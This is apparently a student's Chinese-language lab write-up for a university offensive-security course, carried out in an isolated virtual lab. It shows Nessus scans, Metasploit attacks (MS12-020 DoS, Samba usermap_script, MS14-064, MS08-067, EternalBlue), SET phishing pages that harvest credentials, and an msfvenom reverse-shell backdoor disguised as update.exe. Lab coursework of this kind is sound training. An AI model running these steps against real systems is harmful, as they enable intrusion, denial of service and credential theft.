西工大网络空间实战攻防能力训练（Actual Combat Ability Training of Cybersecurity Offense-defense Confrontation）系列实验
双栏图片格式出了大问题，但我懒得改了。
作业 1：扫描漏洞
扫描网络漏洞
新建名为 Network Scan 策略，扫描网络漏洞，并导出漏洞文件。
在 root 下使用 systemctl start nessusd 启动服务，打开 Nessus，点击右上角“New Scan” ：

选择“Basic Network Scan”：

将扫描命名为 Network Scan，扫描 192.168.186.0/24 网段，最后保存：

运行扫描：

扫描结果如下，其中 192.168.186.134 为 Win7 主机，192.168.186.135 为 WinXP 主机，192.168.186.129 为 Kali 主机：

点击界面右上角“Export”，导出 .nessus 格式的扫描报告：



点击界面右上角“Report”，选择导出的报告文件类型和格式：


扫描 Windows 系统漏洞
新建名为 Advanced Scan 策略，扫描 Windows 的系统漏洞，并导出漏洞文件。
新建扫描，选择“Advanced Scan”：

命名和网段设置过程相同。保存后运行扫描。

结果如下，其中 192.168.186.134 为 Win7 主机，192.168.186.135 为 WinXP 主机，192.168.186.129 为 Kali 主机：

导出 .nessus 格式的扫描报告：

导出漏洞报告（PDF）：

蓝屏攻击 MS12_020
实验环境配置
关闭所有防火墙，并允许 Win7 远程桌面连接：


搜索对应活跃主机 Win7 蓝屏漏洞端口
- 搜索对应活跃主机 Win7 蓝屏漏洞端口
Win7 蓝屏漏洞利用的是 远程桌面默认端口 3389。
ms12-020 漏洞的定义是指操作系统的远程桌面协议存在重大漏洞，入侵者（黑客）可以通过向远程桌面默认端口（3389）发一系列特定 RDP 包，从而获取超级管理员权限，进而入侵系统，Windows 在处理某些 RDP 报文时 Terminal Server 存在错误，可被利用造成服务停止响应（蓝屏）。
使用 nmap 扫描 Win7 主机，IP 为 192.168.186.134，命令如下：
1 | nmap 192.168.186.134 |

发现 Win7 主机已开启 3389 端口。
Nessus 漏洞扫描
- Nessus 新建名为 Advanced Scan 策略，执行漏洞扫描
新建策略并扫描：

扫描到 Win7 存在 MS12-020 漏洞：

Metasploit 漏洞利用
- Metasploit 漏洞利用（分别使用 msfconsole 和 armitage）
msfconsole
使用如下命令打开 Metasploit：
1 | msfconsole |

使用如下命令，查询渗透测试模块，搜索 MS12-020 漏洞：
1 | search ms12-020 |

发现有两个可利用的模块，使用第一个模块，查看靶机是否符合攻击条件：
1 | use auxiliary/scanner/rdp/ms12_020_check # 或 use 0 |
再使用如下命令设置靶机 IP：
1 | set rhosts 192.168.186.134 |

输入 run 或 exploit 指令进行攻击：

满足要求，可以攻击。
输入以下命令查看攻击配置参数：
1 | show options |

再利用第二个模块，输入 run 或 exploit 指令进行 DoS 攻击：


Win7 主机蓝屏并开始重启倒计时，蓝屏攻击成功。
armitage
安装 armitage：
1 | apt install armitage |
初始化 msf 数据库：
1 | msfdb init |

如若启动失败，可使用如下命令开启 postgresql 服务：
1 | service postgresql start |
启动 armitage：
1 | armitage |

搜索并找到 ms12_020 漏洞，双击并在新打开界面中的“RHOSTS”一栏中，填入攻击目标 IP：

点击“Launch”实施攻击：


攻击成功。
制作钓鱼网站
使用社会工程学制作一个钓鱼网站。
网站模板
使用 Social engineering toolkit 工具：
1 | setoolkit |

选择第一项社工攻击，输入 1 并回车；再选择 2 “Website Attack Vectors（网站攻击向量）”，再选择 3 “Credential Harvester Attack Method（凭证收集攻击方法）”，再选择 1 “Web Templates（网站模板）”：




接下来设置凭证收集器（Kali 攻击机）的 IP 地址为 192.168.186.129：

选择 2 “Google”，建立 Google 网站模板：

在收害机 Win7 上访问 Kali 机的 IP 地址 192.168.186.129，即可访问虚假的谷歌登录页面，输入用户名和密码信息模拟登陆：

点击登录，在 Kali 中可以看到收集到的账号和密码：

网站克隆
在选择“Credential Harvester Attack Method”之后的下一步中，选择 2 “Site Cloner”，输入 Kali 机的 IP 地址 192.168.186.129，再输入要克隆的网址，以“华文慕课”为例：
1 | http://www.chinesemooc.org/ |



对 Metasploitable 渗透攻击
对 metasploitable 渗透攻击——利用 Samba 服务漏洞
安装 Metasploitable 虚拟靶机系统



账号：msfadmin 密码： msfadmin

查看 IP：

1 | 192.168.186.136 |
搜索端口是否开放、漏洞扫描
1 | nmap -sV 192.168.186.136 |

Samba 服务对应端口有 139、445。
扫描服务版本
1 | msfconsole |
成功扫描到开启 Samba 服务的主机。
渗透攻击 Samba 服务
使用 usermap 脚本进行攻击，使用如下命令查找：
1 | search usermap |
开始攻击：
1 | use exploit/multi/samba/usermap_script |
攻击成功，可以查看靶机的文件目录和 IP 地址：
网址链接和监听软件实现渗透攻击
分别通过发送一个网址链接和监听软件实现渗透攻击。
发送网址链接
利用 MS14-064 远程代码执行漏洞攻击 Windows XP 系统，Win XP 的 IP 为：192.168.186.135
打开 metasploit，搜索 ms14-064 漏洞，
选择 exploit/windows/browser/ms14_064_ole_code_execution 模块：
1 | search ms14-064 |
查看设置并进行更改，开始攻击：
1 | show options |
在 Win XP 中打开提供的 URL：
1 | http://192.168.186.129:8080/HSRKEuVZp |
攻击成功。使用如下命令查看目前攻击获得的会话：
1 | sessions -i |
成功链接到 Win XP 主机。
监听软件
利用 msfvenom 生成后门并执行，对 Win7 机进行监听。Win7 机 IP 为：192.168.186.134
在 /var/www/html 下生成名为 update.exe 的木马程序：
1 | msfvenom --payload windows/meterpreter/reverse_tcp LHOST=192.168.186.129 LPORT=8080 -f exe --platform windows --arch x86 -e x86/shikata_ga_nai -i 10 > /var/www/html/update.exe |
在 Kali 上启动 apache 为后门程序提供下载地址：
1 | systemctl start apache2 # Kali 自带 apache 服务器 |
在 MSF 上启动 handler 开始监听后门程序：
1 | msfconsole |
打开 Win7，访问 Kali 搭建的 Web 服务下载执行文件。打开浏览器访问：
1 | http://192.168.186.129/update.exe |
保存 update.exe 文件并运行：
回到 Kali 机，发现攻击成功：
后渗透攻击
利用扫描目标主机上的一种漏洞实现后渗透攻击。
ms08_067_netapi
利用 ms08_067_netapi 远程溢出漏洞进行攻击，攻击目标为 Win XP，IP 为：192.168.186.135
扫描端口和漏洞
1 | nmap -sV 192.168.186.135 |
受害者主机的 SMB 服务端口 445 默认开放。
扫描到 Win XP 主机存在 ms08_067_netapi 远程溢出漏洞。
配置攻击
启动 MSF，搜索针对 ms08_067_netapi 的攻击模块：
1 | msfconsole |
使用该模块，并查看攻击参数、可攻击的系统：
1 | use exploit/windows/smb/ms08_067_netapi |
设置攻击参数：
1 | set RHOST 192.168.186.135 # 攻击目标 |
攻击结果
实施攻击：
攻击失败。445 端口停止服务：
Win XP 主机关闭了 Generic Host Process for Win32 服务：
关闭数据执行保护：
重启 Win XP，此时 445 端口开放：
重新执行攻击：
唯一一次攻击成功。Win XP 出现弹窗，之后重启再攻击则会失败。重装虚拟机也没用。
ms10_046
利用 ms10_046 攻击 Win7：
1 | search ms10_046 |
在 Win7 浏览器中访问 http://192.168.186.129/，会自动打开文件管理器：
双击快捷方式，在 Kali 中会开启会话：
始终没有开启，攻击失败。
ms17-010（永恒之蓝）
1 | search ms17-010 |
对 Win7 攻击失败。
use 2：
在高级设置中关闭防火墙，卸载所有更新：

重新实施攻击：
成功获取 Shell，攻击成功。
可上传恶意文件：
1 | upload /root/.msf4/local/wangyuan.pdf |
彩蛋
- 彩蛋图片：
- 作者：そらに twi@srn_111，pid：7216525
- 来源：pixiv ID: 96279698